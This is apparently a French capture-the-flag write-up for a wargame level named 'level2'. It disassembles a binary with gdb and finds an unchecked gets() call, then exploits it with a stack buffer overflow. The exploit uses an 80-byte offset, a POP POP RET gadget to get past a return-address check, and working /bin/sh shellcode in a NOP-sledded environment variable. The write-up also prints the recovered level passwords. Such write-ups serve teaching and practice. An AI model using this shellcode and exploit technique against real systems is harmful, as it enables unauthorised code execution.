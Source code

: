 On se connecte sur le level2, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **shellcode**, et nous allons utliser un **POP POP RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *0x080484f2 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
(gdb) > i f
 Stack level 0, frame at 0xbffff680:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff690
 Arglist at 0xbffff678, args:
 Locals at 0xbffff678, Previous frame's sp is 0xbffff680
 Saved registers:
  ebp at 0xbffff678, eip at 0xbffff67c
(gdb) > p 0xbffff67c - 0xbffff62c
$1 = 80
```
> OFFSET : 80
>
> SHELLCODE: <code>\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80</code>
>
>POP POP RET: <code>0x080485c7   edi ebp ret</code>

Nous commençons par créer une varibale d'environnement avec notre **SHELLCODE** précédé d'une NOPSLIDE (assez grande pour mieux la repérer).
<pre><code>export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
</code></pre>

On cherche par la suite l'adresse de notre **SHELLCODE** afin de trouver une adresse d'un des NOP qu'on utlisera pour le buffer overflow.
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b * p
Breakpoint 1 at 0x80484d4
(gdb) > run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x080484d4 in p ()
(gdb) > x/100xs environ
...
0xbffff866:    SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061۰\006̀Sh/ttyh/dev\211\343\061\311f\271\022'\260\005̀1\300Ph//shh/bin\211\343PS\211ᙰ\v̀"
(gdb) > x/100sx 0xbffff866
0xbffff866:     0x53    0x48    0x45    0x4c    0x4c    0x43    0x4f    0x44
0xbffff86e:     0x45    0x3d    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff876:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff87e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff886:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff88e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff896:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff89e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8a6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8ae:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8b6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8be:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8c6:     0x90    0x90    0x90    0x90
```
On prend l'une des adresses qui ne contient que des **NOP**: <code>0xbffff8a6</code> et on génère notre commande pour le **buffer overflow** :
<pre><code>(python -c 'print "A" * 80 + "\xc7\x85\x04\x08" + "\xa6\xf8\xff\xbf"') | ./level2</code></pre>
> [OFFSET] = A * 80 [POP POP RET] = 0x080485c7 (little endian) [NOP ADDRESS] = Qui va mener au SHELLCODE
<pre><code>> cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
</code></pre>

For download :
<pre><code>scp -P4242 level2@192.168.1.78:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


# Bonus

Ici un simple **ret** suffit, il suffit de prendre notre adresse de ret dans p :
<pre><code>0x0804853e
\x3e\x85\x04\x08 (little endian)
</code></pre>